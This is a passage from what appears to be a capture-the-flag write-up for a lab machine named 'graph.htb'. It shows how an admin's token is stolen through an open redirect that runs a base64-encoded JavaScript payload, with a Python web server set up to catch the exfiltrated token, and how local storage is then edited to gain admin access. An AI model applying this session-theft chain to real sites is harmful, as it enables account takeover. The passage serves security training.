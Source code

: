 The above is what we need the admin to execute in his browser. Now we can send all this using the open redirect vulnerability and sending the link in the chat.

1. Base64 encode all this payload above:
![](images/image10.png)
2. Start a python web server in our machine.
```bash
$ sudo python3 -m http.server 80                                           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
3. Use the open redirect vuln:
```bash
# Make sure you urlencode the equal signs "=", if any...
http://graph.htb/?redirect=javascript:eval(atob("c3RlYWxfYWRtaW5Ub...%3d"))
```

Send this link in the chat and wait a minute to receive the admin token:
![](images/image11.png)
Add the adminToken to our local storage in the browser, change the `admin` to true and refresh the page:
![](images/image12.png)

As the page refresh we get a new option in the menu - Uploads: